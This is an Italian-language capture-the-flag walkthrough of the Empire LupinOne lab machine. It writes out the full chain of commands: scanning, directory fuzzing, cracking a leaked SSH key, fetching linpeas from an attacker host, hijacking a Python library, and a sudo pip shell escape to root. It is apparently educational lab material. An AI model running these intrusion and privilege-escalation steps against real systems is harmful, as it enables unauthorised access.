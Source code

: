 # 🛡️ CyberCerberus: Seconda CTF Bonus - BuildWeek2

Benvenuto nel walkthrough professionale del CTF **Empire LupinOne**! Questo documento rappresenta il lavoro collaborativo del **TeamCyberCerberus**, che ha unito le proprie competenze per completare con successo il challenge. 💻

# [🏠 HOME](./README.MD)

---

## 🔍 **Pentesting Methodology**

### 1️⃣ **Network Scanning**
- **Identificazione dell'indirizzo IP target**:
  ```bash
  sudo nmap -p- -Pn -O -sV -sC -sS 192.168.1.7
  ```
- **Risultati**:
  - **Porta 80 (HTTP)**: Server web attivo. 

---

### 2️⃣ **Enumeration**

#### 🕵️‍♂️ Analisi del sito web
- Accesso alla porta 80 per esplorare il contenuto.
- Individuazione di `/robots.txt` che suggerisce una directory nascosta: `/~myfiles`.

#### ⚡ Fuzzing con FFUF
- Ricerca di directory nascoste:
  ```bash
  ffuf -u http://192.168.1.7/~FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -c
  ```
- Directory scoperta: `/~secret`.

---

### 3️⃣ **Exploitation**

#### 🔐 Scoperta e decifrazione di chiavi SSH
- File SSH privato individuato in `/~secret`.
- Ricerca di file aggiuntivi con FFUF:
  ```bash
  ffuf -u http://192.168.1.7/~secret/.FUZZ -e .py,.java,.php,.dart,.rar,.zip,.txt,.html -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -c -ic -fc 403
  ```
- File trovato: `victim_id_rsa`.

#### 🛠️ Conversione e brute force della chiave SSH
- Conversione della chiave per John the Ripper:
  ```bash
  ssh2john victim_id_rsa > hash_password
  ```
- Brute force con John the Ripper:
  ```bash
  john --wordlist=/usr/share/wordlists/fasttrack.txt hash_password
  ```
  - **Password trovata**: `P@55w0rd!`

#### 🚀 Accesso SSH
- Connessione alla macchina target:
  ```bash
  ssh -i victim_id_rsa icex64@192.168.1.7
  ```
- **Flag utente**: `user.txt` 🎉.

---

### 4️⃣ **Privilege Escalation**

#### 🧑‍💻 Verifica dei privilegi di `sudo`
- Analisi dei permessi:
  ```bash
  sudo -l
  ```
  - Individuato file vulnerabile: `/home/arsene/heist.py`.

#### 🔍 Analisi con linpeas
- Esecuzione del tool:
  ```bash
  wget 192.168.1.8/linpeas.sh
  chmod +x linpeas.sh
  ./linpeas.sh
  ```
- Individuato file Python `webbrowser.py`:
  ```bash
  nano /usr/lib/python3.9/webbrowser.py
  ```
  - **Modifica**: aggiunta di `os.system("/bin/bash")`.

#### 🐍 Escalation con script Python
- Escalation dei privilegi:
  ```bash
  sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py
  ```
  - Accesso come utente `arsene`.

#### 📦 Escalation finale con pip
- Esecuzione exploit di pip:
  ```bash
  TF=$(mktemp -d)
  echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
  sudo pip install $TF
  ```
  - **Accesso root** 🎉.

---

## 🏆 **Root Flag**

- Lettura del flag root:
  ```bash
  cat /root/root.txt
  ```

---

## 🎯 **Conclusione**

Il CTF **Empire LupinOne** è stato completato con successo grazie alla sinergia del **TeamCyberCerberus**! 🔓 Questo walkthrough evidenzia l'importanza di strumenti come **nmap**, **FFUF**, **linpeas**, e tecniche di privilege escalation come **pip** e Python library hijacking. 💻

Grazie per aver seguito questa guida e per il supporto al nostro team! 💪

# [🏠 HOME](./README.MD)
